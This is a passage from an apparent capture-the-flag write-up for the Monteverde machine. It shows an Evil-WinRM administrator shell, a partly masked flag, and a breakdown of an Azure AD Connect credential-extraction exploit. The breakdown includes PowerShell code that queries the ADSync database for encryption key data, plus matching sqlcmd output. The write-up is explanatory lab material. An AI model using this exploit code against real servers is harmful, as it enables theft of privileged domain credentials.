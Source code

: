     Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And I can grab the flag:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    12909612************************



## Beyond Root

### Successful Exploit in Detail

#### Steps

The exploit breaks down into three parts:

-   Get the information from the DB to retrieve the encryption keys from
    the KeyManager.
-   Get the config and encrypted password from the DB.
-   Fetch the keys and decrypt the password.

#### Fetch Key Information

This code is just doing a simple query to the database and storing the
results in appropriate variables:



    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()



I can do that same query using `sqlcmd` on Monteverde to see the
results:



    *Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT keyset_id, instance_id, entropy FROM mms_server_configuration'
    keyset_id   instance_id                          entropy
    ----------- ------------------------------------ ------------------------------------
              1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD

